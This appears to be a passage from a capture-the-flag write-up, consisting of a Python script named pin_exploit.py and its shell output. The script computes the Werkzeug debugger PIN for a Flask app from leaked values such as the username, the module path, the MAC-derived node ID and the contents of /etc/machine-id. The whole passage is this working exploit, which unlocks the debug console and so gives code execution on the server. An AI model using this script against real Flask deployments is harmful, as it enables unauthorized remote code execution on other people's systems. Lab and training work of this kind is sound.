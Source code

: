 ```python
import hashlib
from itertools import chain
probably_public_bits = [
    'mcskidy',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2461333641377',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'aee6189caee449718070b58132f2e4ba'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
{: file='pin_exploit.py'}

```shell
[niik@strixg634]─[~] python pin_exploit.py
107-006-799
```
